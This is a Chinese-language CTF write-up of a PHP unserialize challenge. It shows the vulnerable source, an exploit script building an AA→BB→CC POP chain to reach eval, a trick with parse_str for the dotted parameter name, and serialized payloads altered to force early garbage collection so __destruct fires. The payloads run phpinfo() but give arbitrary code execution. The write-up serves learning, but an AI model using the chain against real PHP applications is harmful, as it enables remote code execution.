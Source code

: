 ```php
<?php
    highlight_file(__FILE__);
    class AA{
        public $a;
        public $aa;
        public function __destruct(){
            echo $this->a;
        }
        
        public function __toString(){
            return "hello";
        }
    }
    
    class BB{
        public $b;
        public function __toString(){
            ($this -> b)();
            return "6";
        }
        public function good($c){
            eval($c);
        }
    }
    
    class CC{
        public $c;
        public $cc;
        public function __invoke(){
            ($this->c)($this->cc);
        }
        public function __toString(){
            return "ok,but wrong";
        }
        public function __call($ccc, $cccc){
            call_user_func($ccc,$cccc);
        }
    }
    $a = unserialize($_GET['QAQ_O.o']);
    throw new Error("NoNoNo!Hacker!");
```

exp.php

```php
<?php
    class AA{
        public $a;
        public $aa;
        public function __destruct(){
            echo $this->a;
        }
        
        public function __toString(){
            return "hello";
        }
    }
    
    class BB{
        public $b;
        public function __toString(){
            ($this -> b)();
            return "6";
        }
        public function good($c){
            eval($c);
        }
    }
    
    class CC{
        public $c;
        public $cc;
        public function __invoke(){
            // var_dump($this->c);
            // var_dump($this->cc);
            // ('(new CC())')("phpinfo");
            ($this->c)($this->cc);
        }
        public function __toString(){
            return "ok,but wrong";
        }
        public function __call($ccc, $cccc){
            var_dump($ccc);
            var_dump($cccc);
            call_user_func($ccc,$cccc);
        }
    }
    $a = new AA;
    $a->a = new BB;
    $a->a->b = new CC;
    $b = new BB;
    $a->a->b->c = array($b, "good");
    $a->a->b->cc = 'phpinfo();';
```

这个题目有三个部分需要学习

1. 关于`($this->c)($this->cc);`部分的理解
2. `$_GET['QAQ_O.o']`这种如何传参数，也就是`parse_str()`的解析特性
3. 关于GC垃圾回收机制

## 1. 字符串调用函数

`($this->c)($this->cc);`，如果是`$this->c($this->cc);`，就相当于调用`$this`的`c`函数，如果给前面加上括号，就是调用前面字符串所代表的函数，

在 PHP 中，您可以使用不同的方式来调用函数和类方法，具体取决于您的需求和代码结构。以下是一些常见的方法：

**调用函数：**

1. 直接调用函数名：

   ```
   functionName();
   ```

2. 使用可变函数调用：

   ```
   $functionName = 'functionName';
   $functionName();
   ```

3. 使用 `call_user_func` 函数调用：

   ```
   call_user_func('functionName');
   ```

4. 使用 `call_user_func_array` 函数传递参数调用：

   ```
   call_user_func_array('functionName', [$param1, $param2]);
   ```

**调用类方法：**

1. 实例化对象后调用：

   ```
   $object = new ClassName();
   $object->methodName();
   ```

2. 直接调用静态方法：

   ```
   ClassName::staticMethodName();
   ```

3. 使用可变类调用：

   ```
   $className = 'ClassName';
   $methodName = 'methodName';
   $object = new $className();
   $object->$methodName();
   ```

4. 使用 `call_user_func` 调用类方法：

   ```
   call_user_func([$object, 'methodName']);
   ```

5. 使用 `call_user_func_array` 传递参数调用类方法：

   ```
   call_user_func_array([$object, 'methodName'], [$param1, $param2]);
   ```

这些是一些常见的调用函数和类方法的方式，您可以根据项目需求和代码结构来选择合适的方式。

如果是`$this->c($this->cc);`，就相当于调用了`CC::__call('c', $this->cc)`，加了括号会优先解析括号里的值，就相当于`CC::c`

个人猜测，使用字符串调用函数的方法和`call_user_func`是一样的，如果字符串改为数组，那就和`call_user_func(array, argc)`是一个效果，也就是调用类方法时可以使用`array(new BB(), "good")('phpinfo();');`或者`call_user_func(array(new BB(), "good"), 'phpinfo();');`

## 2. 查询字符串的解析特性

这是因为`parse_str`函数在处理参数字符串时，会将非字母数字字符转换为下划线`_`，但是在处理数组时，它将保留`.`字符。

在你的第一个例子中，`/?Q.Q.Q=1`被`parse_str`解析为一个简单的键值对，其中键是`/?Q.Q.Q`，值是`1`。由于`.`不是字母或数字，所以它被转换为下划线，结果键变为`/?Q_Q_Q`。

在你的第二个例子中，`/?Q[Q.Q=1`被解析为一个数组。在这种情况下，`parse_str`将保留`.`字符，所以键仍然是`/?Q[Q.Q`，值是`1`。这是因为在PHP中，`.`字符在数组的键中是有效的。

所以，这就是为什么在第一个例子中`.`被转换为`_`，而在第二个例子中它被保留的原因。

## 3. GC垃圾回收机制的利用

对这个题目来说，如果正常走反序列化的途径的话，是不会触发`AA::__destruct()`的，因为程序最后抛出了一个错误导致无法触发`__destruct()`，所以需要想法让GC提前回收反序列化的类，从而使`AA::__destruct()`被提前触发，这里有两个思路，第一种是用数组架空，然后修改数组后面的内容使其反序列化的过程报错，从而导致提前垃圾回收，第二种就是正常的反序列化，然后也是修改反序列化字符串，导致其报错从而提前进行垃圾回收

![image-20230918233141905](GC垃圾回收机制.assets/image-20230918233141905.png)

```php
    // 数组架空
	$a = new AA;
    $a->a = new BB;
    $a->a->b = new CC;
    $b = new BB;
    $a->a->b->c = array($b, "good");
    $a->a->b->cc = 'phpinfo();';
    $c = array($a, 123123);
    echo serialize($c);
/*
a:2:{i:0;O:2:"AA":2:{s:1:"a";O:2:"BB":1:{s:1:"b";O:2:"CC":2:{s:1:"c";a:2:{i:0;O:2:"BB":1:{s:1:"b";N;}i:1;s:4:"good";}s:2:"cc";s:10:"phpinfo();";}}s:2:"aa";N;}i:1;i:123123;}
删掉最后的;或者}，又或者在最后的123123里加个字符、删掉数组全部的第二个内容，都可以实现报错提前触发垃圾回收
还可以像绕过wakeup那样，多增加一个元素
a:2:{i:0;O:2:"AA":2:{s:1:"a";O:2:"BB":1:{s:1:"b";O:2:"CC":2:{s:1:"c";a:2:{i:0;O:2:"BB":1:{s:1:"b";N;}i:1;s:4:"good";}s:2:"cc";s:10:"phpinfo();";}}s:2:"aa";N;}}
*/
```

```php
    // 修改反序列化内容
    $a = new AA;
    $a->a = new BB;
    $a->a->b = new CC;
    $b = new BB;
    $a->a->b->c = array($b, "good");
    $a->a->b->cc = 'phpinfo();';
    echo serialize($a);
/*
O:2:"AA":2:{s:1:"a";O:2:"BB":1:{s:1:"b";O:2:"CC":2:{s:1:"c";a:2:{i:0;O:2:"BB":1:{s:1:"b";N;}i:1;s:4:"good";}s:2:"cc";s:10:"phpinfo();";}}s:2:"aa";N;}
可以修改前面的元素数量，也可以修改后面的内容，但是不能与payload有关的部分，例如phpingo()后面的;这种
*/
```

